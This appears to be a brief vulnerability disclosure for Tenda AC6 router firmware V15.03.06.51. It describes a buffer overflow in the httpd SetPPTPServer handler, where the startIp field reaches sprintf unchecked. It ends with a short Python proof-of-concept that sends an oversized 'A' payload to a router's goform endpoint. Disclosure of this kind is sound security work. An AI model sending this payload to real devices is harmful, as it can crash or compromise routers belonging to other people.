


# buff overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buff overflow in httpd/SetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:




get value from startIp ,then call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/SetPPTPServer"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
